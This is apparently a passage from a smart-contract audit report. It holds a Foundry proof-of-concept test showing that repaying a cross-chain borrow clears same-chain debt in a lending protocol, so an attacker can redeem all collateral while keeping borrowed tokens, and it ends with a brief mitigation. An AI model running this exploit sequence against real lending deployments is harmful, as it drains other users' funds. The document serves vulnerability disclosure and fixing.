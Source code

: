 ```solidity
    function test_clear_same_chain_debt() public {
        address attacker = makeAddr("attacker");
        address otherUser = makeAddr("user");
        uint256 amountToSupply = 100_000e18;
        vm.deal(address(routerA), 1 ether);

        (address tokenA, address lTokenA) = _supplyA(attacker, 1e18);
        (address tokenB, address lTokenB) = _supplyB(attacker, amountToSupply);
        _supplyB(otherUser, amountToSupply);

        vm.startPrank(attacker);

        // Execute cross-chain borrow for dust amount
        routerA.borrowCrossChain(1, tokenA, CHAIN_B_ID);

        uint256 borrowedAmount = (lendStorageB.getMaxBorrowAmount(attacker, lTokenB) * 0.9e18) / 1e18;

        emit log_named_decimal_uint("borrowedAmount", borrowedAmount, 18);

        // Execute borrow
        coreRouterB.borrow(borrowedAmount, tokenB);

        // Repay the cross-chain borrow, thus deleting the same-chain debt
        IERC20(tokenB).approve(address(coreRouterB), type(uint256).max);
        routerB.repayCrossChainBorrow(attacker, 1, lTokenB, CHAIN_A_ID);
        (uint256 borrowAmountB,) = lendStorageB.borrowBalance(attacker, lTokenB);

        emit log_named_decimal_uint("Borrow balance on chain B after repaying cross-chain borrow", borrowAmountB, 18);

        (uint256 borrowed, uint256 collateral) = lendStorageB.getHypotheticalAccountLiquidityCollateral(attacker, LToken(address(0)), 0, 0);
        emit log_named_decimal_uint("Borrowed final on chain B", borrowed, 18);
        emit log_named_decimal_uint("Collateral final on chain B", collateral, 18);

        // The borrow balance is cleared so we can fully redeem the collateral
        uint256 balBeforeRedeem = IERC20(tokenB).balanceOf(attacker);
        coreRouterB.redeem(lendStorageB.totalInvestment(attacker, lTokenB), payable(lTokenB));
        uint256 balAfterRedeem = IERC20(tokenB).balanceOf(attacker);
        vm.assertEq(balAfterRedeem - balBeforeRedeem, amountToSupply);
    }
}

```

### Mitigation

Only apply the same-chain specific updates upon debt repayment if it is a same-chain repayment.